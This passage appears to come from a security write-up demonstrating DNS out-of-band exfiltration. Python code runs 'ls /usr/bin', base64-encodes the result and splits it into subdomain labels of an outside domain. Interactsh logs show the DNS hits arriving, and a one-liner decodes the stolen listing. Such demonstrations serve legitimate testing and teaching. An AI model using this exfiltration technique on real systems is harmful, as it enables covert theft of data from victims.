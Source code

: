 ```
    data = popen('ls /usr/bin').read().encode('UTF-8') 
    payload = b64encode(data).decode('utf-8').replace('=','')

    if len(payload) % 60 == 0:
        num_segments = 0
    else:
        num_segments = (len(payload) // 60) + 1 

    for i in range(num_segments):
        start_index = i * 60
        end_index = start_index + 60
        segment = payload[start_index:end_index]
        url = f'{i}.{segment}..subdomain.awesome-blogpost.com'
```

And the glorious moment of seeing the results back:

```
    _       __                       __       __  
   (_)___  / /____  _________ ______/ /______/ /_ 
  / / __ \/ __/ _ \/ ___/ __ '/ ___/ __/ ___/ __ \
 / / / / / /_/  __/ /  / /_/ / /__/ /_(__  ) / / /
/_/_/ /_/\__/\___/_/   \__,_/\___/\__/____/_/ /_/

        projectdiscovery.io
[INF] Listing 1 payload for OOB Testing
[INF] .subdomain.awesome-blogpost.com

[0.WwphbGlhcwphcmNoCmF3awpiMnN1bQpiYXNlMzIKYmFzZTY0CmJhc2VuYW1l.] Received DNS interaction (A) from 3.9.x.x at ...
[1.CmJhc2VuYwpiYXNoCmJhc2hidWcKYmFzaGJ1Zy02NApiZwpjYS1sZWdhY3kK.] Received DNS interaction (A) from 3.9.x.x at ...
[2.Y2F0CmNhdGNoc2VndgpjZApjaGNvbgpjaGdycApjaG1vZApjaG93bgpja3N1.] Received DNS interaction (A) from 35.177.x.x at ...
[3.bQpjb21tCmNvbW1hbmQKY29yZXV0aWxzCmNwCmNzcGxpdApjdXJsCmN1dApk.] Received DNS interaction (A) from 18.134.x.x at ...
[4.YXRlCmRkCmRmCmRpcgpkaXJjb2xvcnMKZGlybmFtZQpkbmYKZHUKZWNobwpl.] Received DNS interaction (A) from 35.177.x.x at ...
[5.Z3JlcAplbnYKZXhwYW5kCmV4cHIKZmFjdG9yCmZhbHNlCmZjCmZnCmZncmVw.] Received DNS interaction (A) from 35.177.x.x at ...
...
```

Mouse over and copy the output, run it through a oneliner to remove the extra stuff, sort it, remove the duplicates, and decode the whole thing:

```
$ xclip -o clip | cut -d ' ' -f 1 | sed 's/\[//;s/\.\]//' | sort -h | uniq > output26; python3 decode2.py output26
Decoded string: 

alias
arch
awk
...
ls
md5sum
microdnf
mkdir
...
```

